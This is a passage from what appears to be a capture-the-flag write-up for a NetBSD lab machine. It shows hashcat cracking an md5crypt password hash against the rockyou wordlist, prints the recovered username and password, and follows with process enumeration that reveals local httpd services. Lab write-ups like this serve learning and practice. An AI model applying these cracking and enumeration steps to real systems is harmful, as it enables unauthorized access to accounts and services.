 This shows what mode we should use to crack the password:

```sh
$ hashcat -a 0 -m 500 -o cracked.txt hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --username

$ cat cracked.txt
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

Hashcat appends the cracked password to the end of the line. The cracked password and username give access to the service running on port `80`. But there is nothing much to be gained here:

![Logged into service on port 80](./images/web-80-logged-in.png)

I also tried to get access to the service running on port `9001`, but the credentials didn't seem to work for this service. Pretty early on, I noticed that Nginx was proxying to something on localhost. Let's have a look and see what is running on this box:

```sh
$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
root           0  0.0  0.2      0 11168 ?     OKl   8:19PM 0:03.10 [system]
root           1  0.0  0.0  19852  1524 ?     Is    8:19PM 0:00.01 init
root         163  0.0  0.0  32528  2292 ?     Ss    8:19PM 0:00.05 /usr/sbin/syslogd -s
r.michaels   185  0.0  0.0  34992  1972 ?     Is    8:19PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
root         298  0.0  0.0  19704  1336 ?     Is    8:19PM 0:00.00 /usr/sbin/powerd
root         299  0.0  0.0  33368  1832 ?     Is    8:19PM 0:00.00 nginx: master process /usr/pkg/sbin/nginx
root         318  0.0  0.1 117944  7212 ?     Il    8:19PM 0:11.27 /usr/pkg/bin/vmtoolsd
_httpd       336  0.0  0.2 118064 13548 ?     Ss    8:19PM 0:05.40 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8
root         348  0.0  0.0  71348  2928 ?     Is    8:19PM 0:00.01 /usr/sbin/sshd
nginx        373  0.0  0.1  33920  3248 ?     I     8:19PM 0:02.91 nginx: worker process
_httpd       376  0.0  0.0  34952  1996 ?     Is    8:19PM 0:00.01 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
root         402  0.0  0.0  20220  1668 ?     Ss    8:19PM 0:00.04 /usr/sbin/cron
_httpd       411  0.0  0.0  20016  1652 ?     I     8:19PM 0:00.22 /bin/sh /usr/local/scripts/processes.sh
_httpd       422  0.0  0.0  19988  1652 ?     I     8:19PM 0:00.10 /bin/sh /usr/local/scripts/memory.sh
_httpd       436  0.0  0.0  19992  1652 ?     I     8:19PM 0:00.09 /bin/sh /usr/local/scripts/uptime.sh
_httpd      4064  0.0  0.0  17640  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4210  0.0  0.0  17636  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4309  0.0  0.0  22708  1520 ?     O     1:08AM 0:00.00 ps -auxww
```